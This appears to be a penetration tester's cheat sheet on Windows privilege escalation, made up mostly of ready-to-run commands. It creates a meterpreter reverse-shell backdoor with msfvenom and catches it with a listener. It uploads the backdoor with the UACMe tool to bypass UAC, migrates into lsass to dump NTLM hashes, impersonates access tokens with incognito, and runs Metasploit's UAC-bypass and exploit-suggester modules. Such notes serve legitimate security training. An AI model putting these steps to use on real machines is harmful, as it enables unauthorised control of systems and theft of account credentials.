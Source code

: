 # Windows - Privilege Escalation

## Bypassing UAC With UACIMe

**UAC (User Account Control)** is a Windows security features that is used to prevent unauthorized changes from being made to the OS

**UACMe** is an open source, robust privilage escalation tool. It can be used to bypass windows UAC by leveraging varius techniques

```bash
# Create a backdoor with msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > backdoor.exe
```

```bash
# Set up msf listener
service postgresql start && msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $IP
set LPORT $PORT 
run
```

{% code overflow="wrap" %}
```bash
# Create 'Temp' dir on target machine (best folder for payloads)
cd C:\\
mkdir Temp

# Upload the payload on the Temp dir (meterpreter session)
upload backdoor.exe

# Upload the UACMe tool on the target
# https://github.com/hfiref0x/UACME
upload PATH/TO/UACME/Akagi64.exe

# Open Shell
shell

# Use the tool
.\Akagi64.exe KEY C:\Temp\backdoor.exe
## The key is a flag to decide what type of operation the tool do to bypass UAC (23 is the most used)
```
{% endcode %}

```bash
# shell's been open in msf listener (multi/handler)

# check privilege
getprivs

# Migrate windows privilages 
ps -s lsass.exe 
migrate PID

# Make a NTML hashdump 
hashdump
```

***

{% code title="Metasploit PrivEsc" %}
```bash
service postgresql start && msfconsole
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
set SESSION SESSION
set LPORT PORT
set TARGET Windows\ x64 
run
```
{% endcode %}

***

## **Access Token Impersionation**

User privs **required**:

* SeAssignPrimaryToken: allows a user to impersonate tokens
* SeCreateToken: allows a user to create an arbitrary token with administrative privileges
* SeImpersonatePrivilege: allowa a user to create a process under the security context of another user, typically with administrative privileges

```bash
# check privs in meterpreter session
getprivs
```

<pre class="language-bash"><code class="lang-bash"># load incognito module
load incognito

<strong># get token list of the target for impersonation
</strong>list_tokens -u

# copy a token from previusly list and impersonate
impersonate_token TOKEN

# get a PID of explorer process
pgrep explorer

# migrate to explorer process PID
migrate PID
</code></pre>



***

## Windows Kernel Exploitation

### Windows Exploit Suggester

{% embed url="https://github.com/bitsadmin/wesng" %}

```bash
# Identify the kernel vulnerabilities by kernel version
# Metasploit
service postgresql start && msfconsole
use multi/recon/local_exploit_suggester
sessions
set SESSION SESSION
run
```

***

## Identifying Windows Privilege Escalation Vulnerabilities

### PrivescCheck Script

{% embed url="https://github.com/itm4n/PrivescCheck" %}

```bash
# After downloading the script and copying it onto the target Windows machine,
# run it using one of the commands below.
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML"
```
